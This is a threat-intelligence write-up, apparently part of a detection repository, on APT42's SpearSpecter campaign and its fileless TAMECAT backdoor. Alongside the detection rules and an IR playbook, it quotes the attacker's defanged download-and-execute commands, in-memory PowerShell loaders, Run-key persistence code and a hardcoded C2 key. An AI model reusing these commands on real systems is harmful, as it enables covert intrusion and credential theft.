

# SpearSpecter: APT42 (IRGC-IO) fileless TAMECAT PowerShell backdoor via WhatsApp trust-building and search-ms/WebDAV delivery

## TL;DR

SpearSpecter is an Iranian espionage campaign that the Israel National Digital Agency (INDA) attributes with high confidence to APT42, the IRGC Intelligence Organization cyber unit also tracked as Mint Sandstorm, Educated Manticore and CharmingCypress. Instead of mass phishing, operators spend days or weeks cultivating a relationship with a senior defense or government official over WhatsApp - impersonating conference organizers, scholars or diplomats - and then deliver a link that chains a OneDrive lure, a `search-ms` URI prompt and a WebDAV-hosted LNK into a fully in-memory PowerShell backdoor called TAMECAT. TAMECAT is modular and fileless, pulls its modules from Cloudflare Workers, and for the first time in APT42 tradecraft runs its command-and-control over Telegram and Discord (plus HTTPS and a Firebase heartbeat), all AES-256 encrypted. The campaign also deliberately targets the family members of primary targets to widen the attack surface. It matters today because the INDA report was amplified by a July 2026 reporting wave and because the tradecraft - trusted-cloud C2, `search-ms`/WebDAV delivery, and a Telegram handler that executes any unknown message as PowerShell - is highly reusable and largely invisible to signature-based defenses.

## Attribution and confidence

INDA attributes SpearSpecter to **APT42** with **high confidence**, based on custom tooling (TAMECAT and a `Runs.dll` exfil helper), the misspell-then-repair LNK/command tradecraft, WhatsApp-led social engineering, and a multi-cluster cloud infrastructure strategy - all consistent with activity previously attributed to APT42 by Google/Mandiant and Volexity. APT42 works on behalf of the **Islamic Revolutionary Guard Corps Intelligence Organization (IRGC-IO)**; its objective is espionage against individuals and organizations of interest to the IRGC.

| Alias | Vendor |
|---|---|
| APT42 | Google / Mandiant |
| Mint Sandstorm (fka PHOSPHORUS) | Microsoft |
| Educated Manticore | Check Point |
| CharmingCypress | Volexity |
| Charming Kitten / Yellow Garuda / TA453 | CrowdStrike / PwC / Proofpoint |

Attribution evidence is strong across three independent behaviours: (1) `.LNK` files impersonating PDFs with garbled command lines repaired at runtime; (2) runtime-resolved PowerShell execution via `&(gcm i*x)` wildcard resolution of `Invoke-Expression`; and (3) array-index string construction that reassembles C2 URLs from single characters. Each pattern matches published APT42/NICECURL examples. Infrastructure timing corroborates: `cloudcaravan[.]info` and `filenest[.]info` were both registered on 2025-08-17 00:00 UTC, consistent with pre-planned paired staging.

**Genealogy with previous repo cases.** This is the repo's first APT42/IRGC-IO case and the first `search-ms`/WebDAV-to-TAMECAT chain. It contrasts with Day 74 (2026-07-10, Cavern Manticore), an **Iran-MOIS** modular **.NET** C2 delivered by SysAid DLL side-load - a different Iranian service (MOIS vs IRGC-IO), a different implant family and a different delivery vector, useful as a side-by-side of the two halves of Iran's offensive apparatus. It is unrelated to the Iran wartime signalling-surveillance playbook in Day 82 (2026-07-18, STA1/STA2 SS7/Diameter), and to the Iran-nexus OT/destruction cases (Day 40 ATG fuel monitors, Day 33 Black Shadow, Day 5 BAUXITE/CyberAv3ngers).

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Reconnaissance of target + family | T1589 | Social media, public databases, professional networks; profile senior officials and relatives |
| Impersonation accounts | T1585.001 | Fake scholar/diplomat/conference-organizer personas for WhatsApp outreach |
| Weeks-long trust building via WhatsApp | T1566.003 | Multi-day conversation before any malicious element is sent |
| Malicious link -> OneDrive lure | T1204.001 | "Conference document" link; background redirects fire before the doc loads |
| search-ms URI prompt | T1204.001 | `cloudcaravan[.]info` page abuses `search-ms` handler; "Open Windows Explorer" prompt |
| WebDAV connection | T1218.011 | `rundll32 davclnt.dll,DavSetCookie` opens SSL WebDAV to `datadrift[.]somee[.]com` |
| Malicious LNK (PDF lure) | T1204.002 | Shortcut disguised as PDF; garbled `cmd` line repaired at runtime |
| Loader download (curl) | T1105, T1059.003 | `curl -o vgh.txt line[.]completely[.]workers[.]dev/aoh5` -> rename `temp.bat` |
| In-memory PowerShell loader | T1059.001, T1620 | `temp.bat` runs obfuscated PowerShell; `invoke-restmethod` pulls modules, `.(gcm i*ee*)` executes |
| Persistence (Run + logon script) | T1547.001, T1037.001 | `Renovation` Run key + `UserInitMprLogonScript` -> `conhost --headless Microsoft.bat` |
| Multi-channel encrypted C2 | T1071.001, T1102.002, T1573.001 | HTTPS + Telegram + Discord + Firebase heartbeat; AES-256, IV in `Sec-Host` header |
| Collection | T1555.003, T1539, T1114.001, T1113, T1005 | Browser creds/cookies, Outlook OST, screenshots (50/session), selective file crawl |
| Staging + exfiltration | T1560, T1074.001, T1041, T1567.002 | `Runs.dll` chunked reads; exfil over C2 / Telegram / FTP; Tebi S3 staging |



The left lane is the victim host - from the WhatsApp lure and `search-ms` prompt through the WebDAV LNK, the fileless PowerShell loader, registry persistence and local collection. The right lane is APT42's trusted-cloud infrastructure - Somee/WebDAV delivery, Cloudflare Workers module hosts, and the Telegram/Discord/Firebase C2 fabric. The critical detection anchors (red) are the `rundll32 davclnt.dll,DavSetCookie` WebDAV reach-out, the `curl -> rename -> execute` LNK behaviour, and the `&(gcm i*x)` in-memory execution - none of which need a file hash to catch.

## Stage-by-stage detail

### 1. Reconnaissance and relationship building (T1589, T1585.001, T1566.003)

APT42 profiles a senior defense/government official (and, deliberately, family members) through social media, public databases and professional networks, then opens contact impersonating a role aligned to that context. Operators sustain multi-day or multi-week conversations - increasingly over **WhatsApp** - inviting the target to a prestigious conference or strategic meeting before any malware appears. This human-first tradecraft is the campaign's real "exploit"; the malware only arrives once trust is established. MITRE: **T1589 Gather Victim Identity Information**, **T1585.001 Establish Accounts: Social Media**, **T1566.003 Phishing: Spearphishing via Service**.

### 2. Delivery: OneDrive lure -> search-ms -> WebDAV LNK (T1204.001, T1218.011, T1204.002)

The target receives a link framed as a required meeting document. It resolves to a OneDrive lure, but several background redirects fire first. One redirect (`cloudcaravan[.]info`, reached via `filenest[.]info`) serves a page that abuses the Windows `search-ms` URI protocol handler, producing a browser prompt to "Open Windows Explorer". If confirmed, Explorer opens an SSL WebDAV share via a signed LOLBin:

```
rundll32.exe C:\WINDOWS\system32\davclnt.dll, DavSetCookie
  datadrift[.]somee[.]com@SSL
  hxxps://datadrift[.]somee[.]com/aoh5/[REDACTED].lnk
```

The share presents a `.LNK` disguised as a PDF. MITRE: **T1204.001 User Execution: Malicious Link**, **T1218.011 System Binary Proxy Execution: Rundll32**, **T1204.002 User Execution: Malicious File**.

### 3. Loader: LNK -> curl -> temp.bat -> in-memory PowerShell (T1059.003, T1105, T1027, T1140, T1059.001, T1620)

The LNK runs a deliberately garbled `cmd` line that is repaired at runtime (filler characters stripped) into a `curl` fetch, a rename, and an execute:

```
cmd /c curl --ssl-no-revoke -o vgh.txt
  hxxps://line[.]completely[.]workers[.]dev/aoh5 & rename vgh.txt temp.bat & %tmp%
```

`temp.bat` is TAMECAT's primary loader. It runs obfuscated PowerShell that continuously fetches modules from Cloudflare Workers and executes them in memory, using wildcard command resolution to hide `Invoke-Expression`:

```
powershell -w 1 "$lb='gBjs';$uq=(invoke-restmethod -UserAgent 'Chrome'
  'hxxps://line[.]completely[.]workers[.]dev/aoh52');.(gcm i*ee*)$uq"
```

The loader unpacker injects global variables (`$C2Endpoint`, `$EncryptionKey`, `$DiscordChannel`) into the decrypted script, then `[Scriptblock]::Create()` + `&` compiles and runs it entirely in memory. MITRE: **T1059.003 Windows Command Shell**, **T1105 Ingress Tool Transfer**, **T1027 Obfuscated Files or Information**, **T1140 Deobfuscate/Decode**, **T1059.001 PowerShell**, **T1620 Reflective Code Loading**.

### 4. Persistence: Renovation Run key + UserInitMprLogonScript (T1547.001, T1037.001, T1112)

The loader writes a payload into `%LOCALAPPDATA%\Microsoft\Windows\AutoUpdate\` under a randomly generated name (observed: `fhgPczTORoCNEDsm.txt`) and adds a per-user Run value:

```
Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run'
  -Name 'Renovation'
  -Value "cmd /c \"for %a in (\"%localappdata%\Microsoft\Internet Explorer\List\*\") do ( start \"\" \"%a\" )\""
```

`Renovation` launches every file in the IE `List` folder (a disposable `v.bat`), which reconstructs an in-memory load of the AutoUpdate payload:

```
powershell -w 1 "$P=(Get-Content -Path
  C:\Users\<user>\AppData\Local\Microsoft\Windows\AutoUpdate\fhgPczTORoCNEDsm.txt);
  &(gcm i*x)$P"
```

A second channel uses `UserInitMprLogonScript = conhost --headless C:\Users\Public\Microsoft.bat`, a Firebase heartbeat. Before wiring the Run key, TAMECAT sets `HKCU\Console\%Startup%` `DelegationConsole`/`DelegationTerminal` to `{B23D10C0-E52E-411E-9D5B-C09DF709C7D}` so console hosting is forced to `conhost.exe`. The victim identifier is stored in `HKCU\SOFTWARE\MSCore\config` rather than on disk. MITRE: **T1547.001 Registry Run Keys / Startup Folder**, **T1037.001 Boot or Logon Initialization Scripts: Logon Script (Windows)**, **T1112 Modify Registry**.

### 5. Command and control: Telegram/Discord/HTTPS/Firebase, AES-256 (T1071.001, T1102.002, T1573.001)

TAMECAT runs three redundant C2 channels - HTTPS, Discord and Telegram - the first documented APT42 use of Telegram and Discord as C2. The Telegram handler evaluates each incoming message against a keyword set; anything that is not a known command, not the literal `exit` and does not start with `#journey` is executed as PowerShell. Keywords map to per-module Cloudflare Workers hosts:

```
Invest  -> eaggcz2fj7yzqdzx97i96.darijo-bosanac-dl.workers.dev
Scene   -> f3nq6re4nmjwbr8ks5g2qu.darijo-bosanac-dl.workers.dev
Look    -> kxp5sxfwiu7b6quo346hhyc.darijo-bosanac-dl.workers.dev
Cnvrt   -> 2tv995jjg6cx679bspy.darijo-bosanac-dl.workers.dev
Trsdls  -> mvwmh7pxxd33375gj9wwjhcmbk.darijo-bosanac-dl.workers.dev
Anchor  -> 27ehoddkc8t7jer4aic55uh3.darijo-bosanac-dl.workers.dev
Trnspt  -> w5fb5r3txrsvga7zot9uz54k.darijo-bosanac-dl.workers.dev
#journey -> sets/rotates the decryption key
```

All transfers are AES-256 with a hardcoded key (`g9944pf33sbuuuspi3z2er6rqh9ermxk`) and a random 16-char IV sent to the operator in a custom `Sec-Host` HTTP header. LOLBins `conhost.exe`, `cmd.exe`, `curl.exe` and `msedge.exe` carry the traffic (`curl.exe -X POST <firebase>.json`; `start msedge` shows a benign OneDrive doc as a decoy). MITRE: **T1071.001 Web Protocols**, **T1102.002 Web Service: Bidirectional Communication**, **T1573.001 Encrypted Channel: Symmetric Cryptography**.

### 6. Collection, staging and exfiltration (T1555.003, T1539, T1114.001, T1113, T1005, T1560, T1074.001, T1041, T1567.002)

TAMECAT modules harvest browser credentials and cookies (Chrome/Edge, AES-via-COM key decryption), steal Outlook OST mailbox data, capture up to 50 screenshots per session, and crawl selectively for Office docs, PDFs, spreadsheets, password databases and media while avoiding noisy directories. A `Runs.dll` helper reads byte-ranges so large archives/mailboxes stream out piece by piece without loading into memory, over AES-encrypted HTTPS, Telegram or FTP; `s3[.]tebi[.]io` provides S3-compatible staging. MITRE: **T1555.003 Credentials from Web Browsers**, **T1539 Steal Web Session Cookie**, **T1114.001 Local Email Collection**, **T1113 Screen Capture**, **T1005 Data from Local System**, **T1560 Archive Collected Data**, **T1074.001 Local Data Staging**, **T1041 Exfiltration Over C2 Channel**, **T1567.002 Exfiltration to Cloud Storage**.

## Detection strategy

### Telemetry that matters

- **PowerShell Script Block Logging (EID 4104)** and **Module Logging** - mandatory here; almost everything runs in memory. Hunt for `invoke-restmethod`/`iwr` + `gcm i*x`/`gcm i*ee*` + `[Scriptblock]::Create`.
- **Sysmon EID 1** (process create) - `rundll32.exe ... davclnt.dll,DavSetCookie`; `curl.exe` writing `vgh.txt`/renaming to `.bat`; `conhost.exe --headless *.bat`; PowerShell spawned by `explorer.exe`/`cmd.exe` with `-w 1`.
- **Sysmon EID 3 / EID 22** (network + DNS) - connections/lookups to `*.workers.dev`, `*.somee.com`, `*.scalingo.io`, `*.firebaseio.com`, `discord.com/api`, `api.telegram.org`, `*.azionedge.net`, `s3.tebi.io`.
- **Sysmon EID 11 / 13** (file + registry) - writes under `%LOCALAPPDATA%\Microsoft\Windows\AutoUpdate\`; Run value `Renovation`; `Environment\UserInitMprLogonScript`; `Console\%Startup%` `DelegationConsole`/`DelegationTerminal`; `HKCU\SOFTWARE\MSCore\config`.
- **Defender XDR**: `DeviceProcessEvents`, `DeviceNetworkEvents`, `DeviceRegistryEvents`, `DeviceFileEvents`. WebDAV client artefacts (`WebClient` service start, `%LOCALAPPDATA%\Microsoft\Windows\INetCache` DAV entries).

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | sigma/webdav_davsetcookie_rundll32.yml | `rundll32.exe` loading `davclnt.dll` with `DavSetCookie` + remote `@SSL` host (search-ms/WebDAV initial access) |
| Sigma | sigma/tamecat_inmemory_iex_wildcard.yml | PowerShell with `Get-Content` payload + `&(gcm i*x)`/`gcm i*ee*` wildcard `Invoke-Expression` resolution |
| Sigma | sigma/tamecat_persistence_run_logonscript.yml | Registry set of Run value `Renovation` or `UserInitMprLogonScript` -> `conhost --headless` batch |
| KQL | kql/tamecat_webdav_lolbin_chain.kql | `rundll32`+`davclnt.dll` then `curl.exe` fetch/rename to `.bat` then PowerShell, same device short window |
| KQL | kql/tamecat_cloud_c2_beacon.kql | Device connections to `workers.dev`/`firebaseio.com`/`telegram`/`discord` C2 fronts from PowerShell/curl/conhost |
| KQL | kql/tamecat_persistence_registry.kql | Run `Renovation`, `UserInitMprLogonScript`, `Console\%Startup%` delegation and `MSCore\config` registry writes |
| YARA | yara/tamecat_spearspecter.yar | TAMECAT loader/config strings: AES key, `Sec-Host`, `#journey`, `gcm i*`, workers.dev module map, `Renovation` |
| Suricata | suricata/spearspecter_c2.rules | WebDAV `DavSetCookie` UA, `*.workers.dev`/Somee TLS SNI, `Sec-Host` header, Firebase `OutlookStandaloneUpdate` beacon |

No SPL is shipped (retired repo-wide); convert Sigma with `sigma convert -t splunk -p sysmon <rule>.yml` if needed.

### Threat hunting hypotheses

- **H1 (PEAK, hunts/peak_h1_webdav_lnk_search_ms.md):** If a target opened a `search-ms`/WebDAV-delivered LNK, then `explorer.exe`/`rundll32.exe davclnt.dll,DavSetCookie` to an external SSL host will be followed within minutes by `curl.exe` writing and renaming a `.bat`. Hunt EID 1 + EID 3 sequences.
- **H2 (hunts/peak_h2_fileless_iex_wildcard.md):** If TAMECAT is resident, Script Block Logs contain `invoke-restmethod`/`Get-Content` feeding `&(gcm i*x)`/`.(gcm i*ee*)`. Hunt EID 4104 for wildcard `Invoke-Expression` resolution.
- **H3 (hunts/peak_h3_trusted_cloud_c2.md):** If C2 is live, a single host will beacon to `*.workers.dev` module subdomains and a `*.firebaseio.com/OutlookStandaloneUpdate/<host-id>` path, with an AES IV in a `Sec-Host` header. Hunt proxy/DNS + header telemetry, baselining legitimate Cloudflare/Firebase use.

## Incident response playbook

### First 60 minutes (triage)

1. Confirm the delivery: search web/proxy logs for `search-ms` prompts, `*.somee.com` WebDAV, and `*.workers.dev` fetches of `vgh.txt`/`temp.bat` on the suspected host.
2. Pull PowerShell Script Block Logs (EID 4104) for the user and grep for `gcm i*x`, `gcm i*ee*`, `invoke-restmethod`, `[Scriptblock]::Create`.
3. Enumerate persistence: Run value `Renovation`, `Environment\UserInitMprLogonScript`, `%LOCALAPPDATA%\Microsoft\Windows\AutoUpdate\*.txt`, `C:\Users\Public\Microsoft.bat`, IE `List\v.bat`.
4. Identify live C2: current connections to `*.workers.dev`, `*.firebaseio.com`, `discord.com/api`, `api.telegram.org`, `*.azionedge.net`, `s3.tebi.io`.
5. Scope the human vector: was the target approached over WhatsApp? Warn and check family-member accounts (a documented secondary target set).

### Artifacts to collect

| Artifact | Path | Tool | Why |
|---|---|---|---|
| PowerShell operational logs | `Microsoft-Windows-PowerShell/Operational` (4104/4103) | wevtutil / EZ Tools | In-memory loader and module execution |
| Sysmon EVTX | `Microsoft-Windows-Sysmon/Operational` | EvtxECmd | Process/net/registry/file chain |
| Run key + logon script | `HKCU\...\Run\Renovation`, `HKU\<SID>\Environment` | reg / RECmd | Persistence |
| Loader payload | `%LOCALAPPDATA%\Microsoft\Windows\AutoUpdate\*.txt` | file copy | Reconstruct modules / C2 config |
| Beacon batch | `C:\Users\Public\Microsoft.bat`, IE `List\v.bat` | file copy | Firebase host-id, C2 endpoints |
| WebDAV cache | `%LOCALAPPDATA%\Microsoft\Windows\INetCache` (DAV) | file copy | Prove WebDAV delivery |
| Browser + Outlook targets | Chrome/Edge `Login Data`, Outlook `.ost` | forensic copy | Determine credential/mail exposure |

### IR queries and commands

```powershell
# Persistence sweep
Get-ItemProperty 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' | Select-Object Renovation
reg query "HKU\<SID>\Environment" /v UserInitMprLogonScript
Get-ChildItem "$env:LOCALAPPDATA\Microsoft\Windows\AutoUpdate" -Force
Get-Content 'C:\Users\Public\Microsoft.bat' -ErrorAction SilentlyContinue
```

```bash
# Proxy/DNS triage (SIEM export)
grep -Ei 'workers\.dev|\.somee\.com|\.scalingo\.io|firebaseio\.com|azionedge\.net|s3\.tebi\.io|api\.telegram\.org|discord\.com/api' proxy.log
```

```kql
// Devices that fetched the loader then executed in memory (Defender XDR)
DeviceProcessEvents
| where ProcessCommandLine has_any ("davclnt.dll","DavSetCookie") or (FileName =~ "curl.exe" and ProcessCommandLine has "vgh.txt")
| join kind=inner (DeviceProcessEvents
    | where ProcessCommandLine has_any ("gcm i*x","gcm i*ee*","invoke-restmethod")) on DeviceId
| project Timestamp, DeviceName, AccountName, ProcessCommandLine
```

### Containment, eradication, recovery

Isolate the host and disable the involved user session. Remove persistence (`Renovation`, `UserInitMprLogonScript`, AutoUpdate payload, `Microsoft.bat`, IE `List\v.bat`) and reset the `Console\%Startup%` delegation values. Rotate credentials for every browser-stored account and any Outlook/M365 identity on the host; revoke web sessions/tokens (cookies were stolen, so a password reset alone is insufficient - **T1539**). Block the confirmed disposable hosts but do **not** null-route Cloudflare/Firebase/Telegram/Discord wholesale. **Exit criteria:** no residual persistence, no beaconing to the cloud fronts, all exposed credentials/sessions rotated, and the WebDAV/`search-ms` delivery path hardened. **What NOT to do:** do not treat a password reset as remediation (session tokens survive it), and do not rely on file-hash blocklists for a fileless implant.

### Recovery validation

Re-image where feasible. Confirm `search-ms`/`search` handlers are removed or restricted, PowerShell Constrained Language Mode + AMSI + Script Block Logging are enforced, and WebClient/WebDAV egress is monitored. Re-run H1-H3 over a full logging window (7+ days) to confirm no re-entry, and verify the previously approached user (and family accounts) show no renewed WhatsApp outreach.

## IOCs

Top indicators (full set, incl. registry/paths, in `iocs.csv`). Valid types only.

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| domain | line[.]completely[.]workers[.]dev | TAMECAT loader (temp.bat + modules) | high | INDA |
| domain | darijo-bosanac-dl[.]workers[.]dev | Base Cloudflare Workers C2; per-keyword module subdomains | high | INDA |
| domain | datadrift[.]somee[.]com | WebDAV LNK delivery host | high | INDA |
| domain | cloudcaravan[.]info | search-ms URI abuse redirect (reg. 2025-08-17) | high | INDA |
| domain | filenest[.]info | Stage-1 delivery/redirect (reg. 2025-08-17) | high | INDA |
| domain | zx3nkaavlai[.]map[.]azionedge[.]net | TAMECAT $C2Endpoint (Azion edge) | high | INDA |
| domain | s3[.]tebi[.]io | S3-compatible exfil/staging | medium | INDA |
| url | hxxps://line[.]completely[.]workers[.]dev/aoh5 | temp.bat loader download | high | INDA |
| string | g9944pf33sbuuuspi3z2er6rqh9ermxk | Hardcoded AES-256 C2 key | high | INDA |
| string | Sec-Host | Custom header carrying the AES IV | high | INDA |
| string | #journey | Telegram key-rotation control keyword | high | INDA |
| regkey | HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Renovation | Run-key persistence | high | INDA |
| regkey | HKU\<SID>\Environment\UserInitMprLogonScript | Logon-script persistence (conhost Microsoft.bat) | high | INDA |
| path | %LOCALAPPDATA%\Microsoft\Windows\AutoUpdate\ | In-memory loader payload dir (random .txt) | high | INDA |
| path | C:\Users\Public\Microsoft.bat | Firebase heartbeat batch | high | INDA |

No CVE is associated with this case, so no `kev.md` was generated. Network-service indicators (Cloudflare Workers subdomains, Somee/Scalingo/Tebi/Azion hosts) are disposable and decay quickly - re-validate before blocking and prioritise the behavioural and cryptographic indicators (AES key, `Sec-Host` header, `gcm i*x` resolution).

## Secondary findings

- **First APT42 use of Telegram and Discord as C2.** INDA highlights this as new for APT42; the Telegram handler executing any non-command message as PowerShell effectively turns a chat bot into an interactive shell, and blends C2 into services organizations rarely block.
- **`search-ms` + WebDAV delivery is trending.** The `cloudcaravan[.]info` page abusing the `search-ms` URI handler to pop Explorer and mount an attacker WebDAV share is a fileless way to hand a victim an LNK without emailing an attachment; INDA recommends deleting the `search`/`search-ms` handlers where not needed (`reg delete HKEY_CLASSES_ROOT\search-ms /f`).
- **Family members are in scope.** APT42 deliberately targets relatives of primary targets to widen the attack surface and pressure the principal - an OPSEC and awareness problem that pure technical controls do not solve.

## Pedagogical anchors

- **The exploit is the relationship, not a bug.** Weeks of WhatsApp trust-building precede any payload; there is no CVE to patch here, so awareness training for senior staff (and their families) and out-of-band verification of "conference" contacts are primary controls.
- **Fileless means behaviour, not hashes.** A modular PowerShell backdoor that lives in memory, stores its ID in the registry and pulls modules from Cloudflare Workers cannot be caught by static AV; Script Block Logging + AMSI + Constrained Language Mode are the difference between blind and sighted.
- **Trusted cloud is the modern C2.** Cloudflare Workers, Firebase, Telegram and Discord give resilient, low-noise C2 that you cannot block wholesale - baseline normal use and alert on deviations (odd subdomains, `Sec-Host` headers, per-host Firebase paths) rather than blanket-blocking the providers.
- **Session tokens outlive password resets.** Stolen browser cookies (T1539) mean remediation must revoke sessions/tokens, not just reset passwords - a recurring lesson for identity-centric intrusions.
- **LOLBins hide the chain.** `rundll32 davclnt.dll,DavSetCookie`, `curl.exe`, `conhost --headless` and `msedge` decoys make each step look benign; detection has to key on the *sequence*, not any single signed binary.

## What's in this folder

| File | Purpose | Link |
|---|---|---|
| README.md | This analysis. | [README.md](./README.md) |
| kill_chain.svg | Two-lane kill-chain diagram (victim host vs APT42 cloud infra). | [kill_chain.svg](./kill_chain.svg) |
| iocs.csv | Full indicator set (domains, URLs, strings, regkeys, paths). | [iocs.csv](./iocs.csv) |
| sigma/webdav_davsetcookie_rundll32.yml | Sigma: rundll32 davclnt.dll DavSetCookie WebDAV reach-out. | [file](./sigma/webdav_davsetcookie_rundll32.yml) |
| sigma/tamecat_inmemory_iex_wildcard.yml | Sigma: wildcard Invoke-Expression of a Get-Content payload. | [file](./sigma/tamecat_inmemory_iex_wildcard.yml) |
| sigma/tamecat_persistence_run_logonscript.yml | Sigma: Renovation Run key / UserInitMprLogonScript persistence. | [file](./sigma/tamecat_persistence_run_logonscript.yml) |
| kql/tamecat_webdav_lolbin_chain.kql | KQL: WebDAV -> curl/rename -> in-memory PowerShell chain. | [file](./kql/tamecat_webdav_lolbin_chain.kql) |
| kql/tamecat_cloud_c2_beacon.kql | KQL: beaconing to workers.dev/firebase/telegram/discord fronts. | [file](./kql/tamecat_cloud_c2_beacon.kql) |
| kql/tamecat_persistence_registry.kql | KQL: Run/logon-script/console-delegation/MSCore registry writes. | [file](./kql/tamecat_persistence_registry.kql) |
| yara/tamecat_spearspecter.yar | YARA: TAMECAT loader/config string set. | [file](./yara/tamecat_spearspecter.yar) |
| suricata/spearspecter_c2.rules | Suricata: WebDAV UA, workers.dev/Somee SNI, Sec-Host, Firebase beacon. | [file](./suricata/spearspecter_c2.rules) |
| hunts/peak_h1_webdav_lnk_search_ms.md | PEAK hunt H1: search-ms/WebDAV LNK delivery sequence. | [file](./hunts/peak_h1_webdav_lnk_search_ms.md) |
| hunts/peak_h2_fileless_iex_wildcard.md | PEAK hunt H2: fileless wildcard Invoke-Expression. | [file](./hunts/peak_h2_fileless_iex_wildcard.md) |
| hunts/peak_h3_trusted_cloud_c2.md | PEAK hunt H3: trusted-cloud C2 beacon + Sec-Host header. | [file](./hunts/peak_h3_trusted_cloud_c2.md) |

## Sources

- [SpearSpecter: Unmasking Iran's IRGC Cyber Operations Targeting High-Profile Individuals (Israel National Digital Agency)](https://govextra.gov.il/national-digital-agency/cyber/research/spearspecter/)
- [Iran APT SpearSpecter Uses Weeks-Long WhatsApp Lures and Fileless TAMECAT Backdoor to Hit Defense (SecurityOnline)](https://securityonline.info/iran-apt-spearspecter-uses-weeks-long-whatsapp-lures-and-fileless-tamecat-backdoor-to-hit-defense/)
- [Iranian Spies Now Use AI Lures, Telegram C2, and a Backdoor That Survives Password Resets (TechTimes)](https://www.techtimes.com/articles/321272/20260722/iranian-spies-now-use-ai-lures-telegram-c2-backdoor-that-survives-password-resets.htm)
- [Iran-Linked APT42 Uses AI-Assisted Phishing and TAMECAT Backdoor to Target Defense Officials (GBHackers)](https://gbhackers.com/apt42-uses-ai-assisted-phishing/)
- [APT42 Uses AI-Assisted Phishing and TAMECAT Malware to Target Government and Defense Officials (Cyber Security News)](https://cybersecuritynews.com/apt42-uses-ai-assisted-phishing-and-tamecat-malware/)
- [TAMECAT Backdoor Steals Edge and Chrome Login Credentials (CyberPress)](https://cyberpress.org/tamecat-backdoor-steals-edge-chrome-credentials/)
- [APT42: Iran's Human-Centric Espionage in 2026 (KELA)](https://www.kelacyber.com/blog/irans-apts-and-the-us-enterprise-in-2026-apt42/)
